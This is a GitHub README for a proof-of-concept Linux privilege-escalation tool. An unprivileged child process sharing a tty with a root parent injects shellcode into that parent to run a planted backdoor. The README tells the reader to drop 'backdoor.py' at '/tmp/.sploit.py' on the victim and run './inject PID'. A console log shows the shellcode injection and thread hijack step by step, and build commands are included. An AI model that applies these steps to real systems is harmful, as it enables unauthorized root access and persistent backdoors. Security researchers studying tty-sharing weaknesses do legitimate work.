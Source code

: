 
## Overview

This code allows exploiting a writing to a parent process sharing the same tty from a child. This is especially interesting when the child process is executing a less privileged user we control and the parent process is root.

This Proof Of Concept is not the cleanest one but has the advantage to work properly. It should be noted that if the targeted process is being actively used, the exploit may crash it.

## Usage

First, the backdoor `backdoor.py` must be placed on the victim system, for example in `/tmp/.sploit.py`. The given shellcode executes the script at this given location. Then:

```
./inject PID
```

For example:

```
$ ps auxwf
root      823863  0.0  0.1  15136  9104 ?        Ss   20:52   0:00  \_ sshd: root@pts/7
root      823872  0.0  0.0  11036  6752 pts/7    Ss   20:52   0:00      \_ -bash
root      826163  0.0  0.0  10320  4920 pts/7    S    21:45   0:00          \_ su - user
user      826164  0.0  0.0  11264  6968 pts/7    S+   21:45   0:00              \_ -bash
$ ./inject 826164
[+] attaching to proccess (id: 826164)
[+] mmaping shellcode and stack
[+] mem_addr: 0x7f4a3aed6000
[+] stack_addr: 0x7f4a3aed6000
[+] copying shellcode (1024 bytes)
[+] setting up child's stack
[+] starting new thead
[+] thread id: 826762
[+] setting rip in thread
[+] detaching main process
[+] detaching from thread
[+] done
```

## Building

```
git clone https://github.com/laxa/pytryce.git
cd pytryce
make
```

## Author

This project has code from the following repositories:
* https://github.com/Srakai/Adun
* https://github.com/voydstack/shellcoding

## License

This project is licensed under the GNU General Public License v3.0 - see the LICENSE.md file for details
